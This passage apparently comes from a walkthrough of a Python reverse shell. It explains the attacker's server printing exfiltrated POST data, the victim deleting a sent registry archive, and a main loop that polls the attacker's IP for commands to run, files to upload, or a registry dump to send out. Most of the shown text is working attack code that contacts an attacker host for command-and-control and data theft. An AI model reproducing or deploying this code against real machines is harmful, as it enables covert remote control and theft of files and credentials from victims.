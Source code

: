 ```python
    length = int(self.headers['Content-Length'])

    postVar = self.rfile.read(length).decode()

    print(Fore.GREEN + postVar, end='')
    print(Style.RESET_ALL)
```

Returning to the victim's machine. After the call to `send_file(command)`, the victim's machine will then remove the `reg.zip` archive.

```python
    os.remove(f'./{zipfile}')
```

### 8. Reverse shell termination

After the call to `pull_registry()`, code execution returns to main.
Following the call `break` is called and the while loop exits killing the connection to the victim.

If anything other than `t`, `terminate`, or `!` was provided the while loop will run again to get an additional command from the server.

```python
def main():
    """
    Main logic loop

    Based on input from server runs either:

            pulls specified file
            exports registry
            run specified command
    """

    while True:

        # Setup connection to attacker
        # Send GET request to host machine
        req = requests.get(IP)
        command = req.text

        print(f"Status Code: {req.status_code}")

        if command in {'terminate', 't'}:
            print("Terminating Connection")
            break
        elif '!' in command:
            pull_registry()
            break
        elif '^' in command:
            send_file(command)
        else:
            run_process(command)
        print(f"Status Code: {req.status_code}")
        time.sleep(2)
```
